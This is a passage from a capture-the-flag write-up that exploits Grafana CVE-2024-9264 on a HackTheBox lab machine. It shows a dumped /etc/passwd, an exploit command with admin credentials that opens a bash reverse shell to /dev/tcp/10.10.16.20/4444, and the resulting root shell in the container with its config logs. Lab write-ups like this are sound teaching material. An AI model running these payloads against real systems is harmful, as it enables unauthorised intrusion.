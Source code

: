 ```bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```
{: .nolineno }
 
**Output:** Dumped `/etc/passwd`, revealing users like grafana and hinting at <span style="color:rgb(219, 0, 0)">enzo</span>. For RCE, `-c` (command to execute, here a bash reverse shell).  

**Command (RCE):**  

```bash
python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'bash -c "bash -i >& /dev/tcp/10.10.16.20/4444 0>&1"' http://grafana.planning.htb/  
```
{: .nolineno }

**Output:** Obtained root shell in Grafana Docker container. Reasoning: Direct PoC for authenticated exploit; alternatives include manual HTTP requests with Burp. Risks: Requires auth; could be logged in Grafana audits.

## 6️⃣ Getting Shell  

From RCE, caught reverse shell in container. Stabilized by navigating and running scripts.  

**Commands/outputs:**  

```bash
root@7ce659d667d7:~# cd /
root@7ce659d667d7:/# ls
bin   dev  home  lib32	libx32	mnt  proc  run	   sbin  sys  usr
boot  etc  lib	 lib64	media	opt  root  run.sh  srv	 tmp  var
root@7ce659d667d7:/# ./run.sh
Grafana server is running with elevated privileges. This is not recommended
....
```
{: .nolineno } 


**Output:** 
Listed container dirs; run.sh started Grafana, logging env overrides like GF_SECURITY_ADMIN_USER=`enzo` and masked password. This provided hints for pivoting. 

```bash
INFO [08-23|17:15:13] Config overridden from Environment variable logger=settings var="GF_SECURITY_ADMIN_USER=enzo"
INFO [08-23|17:15:13] Config overridden from Environment variable logger=settings var="GF_SECURITY_ADMIN_PASSWORD=*********"
INFO [08-23|17:15:13] Target     
```
{: .nolineno }
